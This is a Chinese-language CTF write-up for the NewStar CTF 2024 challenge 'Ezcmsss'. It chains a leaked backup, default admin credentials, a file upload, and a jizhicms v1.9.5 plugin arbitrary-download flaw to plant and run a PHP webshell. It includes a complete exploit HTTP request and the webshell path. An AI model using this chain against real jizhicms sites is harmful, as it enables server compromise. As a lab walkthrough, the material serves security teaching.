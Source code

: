 ```yaml
---
titleTemplate: ':title | WriteUp - NewStar CTF 2024'
---
```


# Ezcmsss

在首页源码里找到提示，需要查看备份文件

![首页源码](/assets/images/wp/2024/week4/ezcmsss_1.png)

访问 `/www.zip` 获得源码备份文件，在 `readme.txt` 获得 jizhicms 版本号为 v1.9.5，在 `start.sh` 获得服务器初始化时使用的管理员账号和密码

![管理员账号密码](/assets/images/wp/2024/week4/ezcmsss_2.png)

同时在 `start.sh` 中有备注提示访问 `admin.php` 进入管理页面，然后使用上面的账号密码登录

![admin.php](/assets/images/wp/2024/week4/ezcmsss_3.png)

上网搜索可以发现 jizhicms v1.9.5 有一个管理界面的任意文件下载漏洞

在 `扩展管理-插件列表` 中发现只有一个插件，这是由于容器不出网导致的，因此我们不能按照网上的方式，使用公网的 url 链接下载文件，需要在将 .zip 文件上传到题目容器里，然后通过任意文件下载漏洞本地下载、解压

![插件列表](/assets/images/wp/2024/week4/ezcmsss_4.png)

有几种上传 `.zip` 文件的方法，都可以获取到文件保存的目录，其中一种是在 `栏目管理-栏目列表-新增栏目` 中添加附件，上传构造好的包含 php 马的压缩包

![上传压缩包](/assets/images/wp/2024/week4/ezcmsss_5.png)

抓包获得保存路径为 `/static/upload/file/20241016/1729079175871306.zip`，测试可以访问

在插件那边进行抓包，构造请求如下（可以照着网上的漏洞复现依葫芦画瓢，`filepath` 随便起就行）

```http
POST /admin.php/Plugins/update.html HTTP/1.1
Host: eci-2zedm1lw513xbz1d46c6.cloudeci1.ichunqiu.com
Content-Length: 126
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/129.0.0.0 Safari/537.36 Edg/129.0.0.0
Accept: application/json, text/javascript, */*; q=0.01
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Cookie:PHPSESSID=0k7pqbk4chhak4ku5aqbfhe7b3

filepath=apidata&action=start-download&type=0&download_url=http%3a//127.0.0.1/static/upload/file/20241016/1729079175871306.zip
```

:::warning 注意
这里的 PHPSESSID 记得换成自己的
:::

![发包](/assets/images/wp/2024/week4/ezcmsss_6.png)

继续构造解压的请求，修改 `action` 即可，解压完的文件在 `/A/exts`

![解压](/assets/images/wp/2024/week4/ezcmsss_7.png)

访问 `/A/exts/shell.php`，可以直接进行命令执行

:::warning 注意
这里的路径文件名就是上面下载的压缩包里面的文件，如果压缩包里有多个文件，解压会在 `exts` 下建立一个和上面 POST 参数 `filepath` 的值一致的文件夹，php 马需要在此目录下访问
:::

![shell](/assets/images/wp/2024/week4/ezcmsss_8.png)

flag 在根目录下的 `/flllllag` 文件，用通配符读取即可<span data-desc>（如 `/fl*`）</span>
